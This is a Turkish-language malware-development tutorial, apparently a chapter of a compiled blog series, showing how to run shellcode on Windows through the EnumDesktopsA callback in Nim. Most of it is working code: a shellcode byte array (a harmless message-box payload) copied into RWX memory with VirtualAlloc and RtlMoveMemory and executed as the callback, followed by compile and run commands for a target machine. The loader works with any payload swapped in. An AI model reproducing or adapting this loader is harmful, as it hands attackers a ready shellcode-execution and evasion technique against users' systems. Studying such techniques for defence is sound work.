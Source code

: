 \newpage
\subsection{50. Kötü amaçlı yazılım geliştirme hilesi. EnumDesktopsA ile payload’u çalıştırma. Basit Nim örneği.}

﷽

![malware](./images/123/2024-06-12_14-34.png){width="80%"}      

Bu gönderi, Nim programlama dilinde EnumDesktopsA aracılığıyla payload’unu çalıştırılmasının doğruluğunu kontrol etmektedir.       

`EnumDesktopsA` işlevi, her masaüstünün adını uygulama tarafından tanımlanan bir geri çağırma işlevine iletir:    

```cpp
BOOL EnumDesktopsA(
  HWINSTA          hwinsta,
  DESKTOPENUMPROCA lpEnumFunc,
  LPARAM           lParam
);
```

### pratik örnek

Önceki gönderilerden [birindeki](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) C kodumuzu Nim diliyle güncelleyelim:     

```python
import system
import winim

when isMainModule:
  let payload: seq[byte] = @[
    byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41,
    0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52,
    0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1,
    0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e,
    0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49,
    0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d,
    0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b,
    0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c,
    0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
    0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7,
    0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85,
    0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48,
    0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d,
    0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  ]

  let mem = VirtualAlloc(
    NULL, cast[SIZE_T](payload.len), 
    MEM_COMMIT, PAGE_EXECUTE_READWRITE
    )
  RtlMoveMemory(
    mem, 
    unsafeAddr payload[0], 
    cast[SIZE_T](payload.len)
    )
  EnumDesktopsA(
    GetProcessWindowStation(), 
    cast[DESKTOPENUMPROCA](mem), 
    cast[LPARAM](NULL)
    )
```

Her zamanki gibi, meow-meow mesaj kutusu payload’unu kullandım.   

```python
let payload: seq[byte] = @[
    byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41,
    0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52,
    0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1,
    0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e,
    0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49,
    0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d,
    0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b,
    0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c,
    0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
    0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7,
    0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85,
    0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48,
    0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d,
    0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  ]
```

### demo

Hadi bunu çalışırken kontrol edelim. derleyin:

```bash
nim c -d:mingw --cpu:amd64 hack.nim
```

![malware](./images/123/2024-06-12_14-42.png){width="80%"}         

Sonra. sadece dosyayı hedef makineye (benim durumumda `Windows 11`) taşıyın ve çalıştırın:     

```powershell
.\hack.exe
```

![malware](./images/123/2024-06-12_14-35.png){width="80%"}     

Gördüğünüz gibi, her şey Nim dili için de mükemmel bir şekilde çalıştı =^..^=!     

[Malware development trick 20: Run shellcode via EnumDesktopsA, C example](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-06-12-malware-trick-39)    

